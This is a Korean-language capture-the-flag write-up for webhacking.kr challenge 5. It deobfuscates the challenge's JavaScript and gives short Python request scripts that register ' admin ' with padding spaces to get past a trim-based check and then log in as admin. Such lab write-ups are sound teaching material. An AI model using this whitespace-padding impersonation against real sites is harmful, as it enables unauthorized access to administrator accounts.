 ================================================================================================================
[webhacking.kr] 05
================================================================================================================


.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="join.php",arrowhead="normal"];
        step3 -> step2[label="javascript Obfuscated",arrowhead="normal"];
        step4 -> step5[label="id= admin&pw=1234",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

Source analysis
================================================================================================================

해당 페이지에는 Login과 Join 버튼만 존재하는데 Join 버튼을 클릭할 경우 'Access_Denied'가 된다.
Login 버튼을 클릭하면 로그인 페이지가 뜨게 되는데 특별한 부분을 확인할 수 없다.
Login 버튼 클릭시 login.php로 접근하므로 join.php로 접근을 해보니 검은 바탕화면이 나타나는데 해당 소스를 확인할 수 있었다.

.. code-block:: html

    
    <html>
    <title>Challenge 5</title></head><body bgcolor=black><center>
    <script>
    l='a';ll='b';lll='c';llll='d';lllll='e';llllll='f';lllllll='g';llllllll='h';lllllllll='i';llllllllll='j';lllllllllll='k';llllllllllll='l';lllllllllllll='m';llllllllllllll='n';lllllllllllllll='o';llllllllllllllll='p';lllllllllllllllll='q';llllllllllllllllll='r';lllllllllllllllllll='s';llllllllllllllllllll='t';lllllllllllllllllllll='u';llllllllllllllllllllll='v';lllllllllllllllllllllll='w';llllllllllllllllllllllll='x';lllllllllllllllllllllllll='y';llllllllllllllllllllllllll='z';I='1';II='2';III='3';IIII='4';IIIII='5';IIIIII='6';IIIIIII='7';IIIIIIII='8';IIIIIIIII='9';IIIIIIIIII='0';li='.';ii='<';iii='>';lIllIllIllIllIllIllIllIllIllIl=lllllllllllllll+llllllllllll+llll+llllllllllllllllllllllllll+lllllllllllllll+lllllllllllll+ll+lllllllll+lllll;
    lIIIIIIIIIIIIIIIIIIl=llll+lllllllllllllll+lll+lllllllllllllllllllll+lllllllllllll+lllll+llllllllllllll+llllllllllllllllllll+li+lll+lllllllllllllll+lllllllllllllll+lllllllllll+lllllllll+lllll;if(eval(lIIIIIIIIIIIIIIIIIIl).indexOf(lIllIllIllIllIllIllIllIllIllIl)==-1) { bye; }if(eval(llll+lllllllllllllll+lll+lllllllllllllllllllll+lllllllllllll+lllll+llllllllllllll+llllllllllllllllllll+li+'U'+'R'+'L').indexOf(lllllllllllll+lllllllllllllll+llll+lllll+'='+I)==-1){alert('access_denied');history.go(-1);}else{document.write('<font size=2 color=white>Join</font><p>');document.write('.<p>.<p>.<p>.<p>.<p>');document.write('<form method=post action='+llllllllll+lllllllllllllll+lllllllll+llllllllllllll+li+llllllllllllllll+llllllll+llllllllllllllll
    +'>');document.write('<table border=1><tr><td><font color=gray>id</font></td><td><input type=text name='+lllllllll+llll+' maxlength=5></td></tr>');document.write('<tr><td><font color=gray>pass</font></td><td><input type=text name='+llllllllllllllll+lllllllllllllllllllllll+' maxlength=10></td></tr>');document.write('<tr align=center><td colspan=2><input type=submit></td></tr></form></table>');}
    </script>
    </body>
    </html>

javascript로 된 페이지로 해당 난독화 부분을 복호화해보자.

.. code-block:: html
    
    < html >
    < title > Challenge 5 < /title></head > < body bgcolor = black > < center >
    < script >
    l = 'a';
	ll = 'b';
	lll = 'c';
	llll = 'd';
	lllll = 'e';
	llllll = 'f';
	lllllll = 'g';
	llllllll = 'h';
	lllllllll = 'i';
	llllllllll = 'j';
	lllllllllll = 'k';
	llllllllllll = 'l';
	lllllllllllll = 'm';
	llllllllllllll = 'n';
	lllllllllllllll = 'o';
	llllllllllllllll = 'p';
	lllllllllllllllll = 'q';
	llllllllllllllllll = 'r';
	lllllllllllllllllll = 's';
	llllllllllllllllllll = 't';
	lllllllllllllllllllll = 'u';
	llllllllllllllllllllll = 'v';
	lllllllllllllllllllllll = 'w';
	llllllllllllllllllllllll = 'x';
	lllllllllllllllllllllllll = 'y';
	llllllllllllllllllllllllll = 'z';
	I = '1';
	II = '2';
	III = '3';
	IIII = '4';
	IIIII = '5';
	IIIIII = '6';
	IIIIIII = '7';
	IIIIIIII = '8';
	IIIIIIIII = '9';
	IIIIIIIIII = '0';
	li = '.';
	ii = '<';
	iii = '>';
	lIllIllIllIllIllIllIllIllIllIl = lllllllllllllll + llllllllllll + llll + llllllllllllllllllllllllll + lllllllllllllll + lllllllllllll + ll + lllllllll + lllll;
	lIIIIIIIIIIIIIIIIIIl = llll + lllllllllllllll + lll + lllllllllllllllllllll + lllllllllllll + lllll + llllllllllllll + llllllllllllllllllll + li + lll + lllllllllllllll + lllllllllllllll + lllllllllll + lllllllll + lllll;
	if (eval(lIIIIIIIIIIIIIIIIIIl).indexOf(lIllIllIllIllIllIllIllIllIllIl) == -1) {
	    bye;
	}
	if (eval(llll + lllllllllllllll + lll + lllllllllllllllllllll + lllllllllllll + lllll + llllllllllllll + llllllllllllllllllll + li + 'U' + 'R' + 'L').indexOf(lllllllllllll + lllllllllllllll + llll + lllll + '=' + I) == -1) {
	    alert('access_denied');
	    history.go(-1);
	} else {
	    document.write('<font size=2 color=white>Join</font><p>');
	    document.write('.<p>.<p>.<p>.<p>.<p>');
	    document.write('<form method=post action=join.php>');
	    document.write('<table border=1><tr><td><font color=gray>id</font></td><td><input type=text name=id maxlength=5></td></tr>');
	    document.write('<tr><td><font color=gray>pass</font></td><td><input type=text name=pw maxlength=10></td></tr>');
	    document.write('<tr align=center><td colspan=2><input type=submit></td></tr></form></table>');
	} < /script> < /body> < /html>

|

trim 함수 우회
================================================================================================================

코드를 복호화해보면 join.php로 id, pw 파라미터를 통해 가입을 하는 것을 확인할 수 있다. 해당 페이지로 admin을 가입하면 오류 메시지가 발생하는데 space를 넣어 가입할 경우 정상적으로 가입된다. 아마, trim 함수를 통해 id를 확인하는 것으로 보인다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-05/mem/join.php"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    data = {
        "id":" admin ",
        "pw":"1234"
    }

    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content

|

solve
================================================================================================================

가입한 계정으로 로그인을 진행하면 로그인 성공!

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-05/mem/login.php"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    data = {
        "id":" admin",
        "pw":"1234"
    }

    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content